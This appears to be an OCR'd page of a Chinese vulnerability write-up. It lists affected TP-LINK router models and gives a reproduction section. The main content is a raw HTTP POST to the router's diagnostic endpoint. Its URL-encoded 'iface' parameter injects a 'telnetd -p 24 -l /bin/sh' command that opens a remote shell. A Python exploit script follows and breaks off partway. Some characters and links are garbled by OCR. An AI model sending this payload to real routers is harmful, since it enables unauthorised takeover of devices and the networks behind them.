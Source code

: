 TP-LINK TL-R478
TP-LINK TL-R473GP-AC
TP-LINK TL-R473P-AC
TP-LINK TL-R473G
TP-LINK TL-R473
TP-LINK TL-R4299G
TP-LINK TL-R4239G
TP-LINK TL-R4149G
TP-LINK TL-R488
TP-LINK TL-R483
TP-LINK TL-R483G
TP-LINK TL-R479GP-AC
TP-LINK TL-R479GPE-AC

## 三、复现过程

```
POST /cgi-bin/luci/;stok=ea2178b4514da7ae227f4ec192536930/admin/diagnostic?form=diag HTTP/1.1
Host: 0-sec.org
Content-Length: 370
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://192.168.3.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.3.1/webpages/index.html
Accept-Encoding: gzip, deflate
Cookie: sysauth=be9b6f2b4b9a76a8a658e108c6197f2c
Connection: close `data=%7B%22method%22%3A%22start%22%2C%22params%22%3A%7B%22type%22%3A%220%22%2C%22type_hidden%22%3A%220%22%2C%22ipaddr_ping%22%3A%[22baidu.com](http://22baidu.com)%22%2C%22iface_ping%22%3A%22WAN1%22%2C%22ipaddr%22%3A%[22baidu.com](http://22baidu.com)%22%2C%22iface%22%3A%22%3Btelnetd±p+24±l+/bin/sh%22%2C%22count%22%3A%221%22%2C%22pktsize%22%3A%2264%22%2C%22my_result%22%3A%22The+Router+is+ready.%5Cr%5Cn%22%7D%7D` 
```

### 漏洞脚本

```
# Tested product: TL-WVR450L
# Hardware version：V1.0
# Firmware version: 20161125
# The RSA_Encryption_For_Tplink.js is use for Rsa Encryption to the password when login the web manager.
# You can download the RSA_Encryption_For_Tplink.js by https://github.com/coincoin7/Wireless-Router-Vulnerability/blob/master/RSA_Encryption_For_Tplink.js

import execjs

import requests

import json

import urllib

def read_js():

file = open("./RSA_Encryption_For_Tplink.js", ‘r’)

line = file.readline()

js = ‘’

while line:
```